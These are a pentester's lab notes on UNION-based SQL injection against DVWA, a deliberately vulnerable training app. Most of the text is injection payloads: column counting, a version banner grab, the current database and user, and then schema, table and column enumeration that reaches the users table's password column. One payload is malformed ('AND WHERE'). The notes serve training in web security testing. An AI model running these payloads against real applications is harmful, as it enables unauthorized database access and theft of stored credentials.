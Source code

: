 # 01 - Database Reconnaissance

Search Tag: #sql-injection #union #dvwa

## 1.1 - Dump Database

### 1.1.1 - Columns Enumeration

^78ef92

#### 1.1.1.1 - UNION Detection

We can double confirm using [[Pentesting Phases/WebApp Hacking/Injection/SQL Injection/01 - In-Band SQL Injection/Lab/01 - DVWA/Difficulty/Low/Manual/02 - Error-Based Query SQL Injection/01 - Database Reconnaissance#^f521af|error-based (ORDER BY)]] fields enumeration.

```sql
' UNION SELECT 1, 2#

' UNION SELECT 1, 2, 3#

' UNION SELECT NULL, NULL#

' UNION SELECT NULL, NULL, NULL#
```

### 1.1.2 - Discovery and Enumeration

#### 1.1.2.1 - UNION Enumeration

##### 1.1.2.1.1 - Banner Grab

Sometimes when we try to retrieve error messages. Sometimes the warning messages may not provide us the SQL server software might be running. However, we can discover it even further to grab the version of the DBMS back-end software is running.

```sql
' UNION SELECT 1, @@VERSION#

' OR 1=1 UNION SELECT 1, @@VERSION#

' UNION SELECT NULL, @@VERSION#

' OR 1=1 UNION SELECT NULL, @@VERSION#
```

- The DBMS server is MariaDB which is a fork of MySQL.

![[1.1 - Banner Grab.png]]

##### 1.1.2.1.2 - Current Database

```sql
' UNION SELECT NULL, DATABASE()#
```

- The current database is `dvwa`

![[1.2 - Current Database.png]]

##### 1.1.2.1.3 - Current Database User

```sql
' UNION SELECT NULL, USER()#
```

- The current database is `dvwa@localhost`

![[1.3 - Current User.png]]

#### 1.1.2.2 - Schema Database Enumeration

```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata#
```

![[1.4 - Enumerate Databases.png]]

Let's enumerate the tables.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables#

' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()#
```

![[1.5 - Enumerate Tables With The Current Database.png]]

You can narrow it down.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database() AND WHERE table_name LIKE 'user%'#
```

Let's note down the tables we've discovered that are potential to retrieve data.

```
users
```

Let's enumerate the columns.

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns#

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = database() AND table_name = 'users'#
```

![[1.6 - Enumerate Columns With The Current Database.png]]

Let's note down the columns we've discovered that are potential to retrieve data

```
user
password
```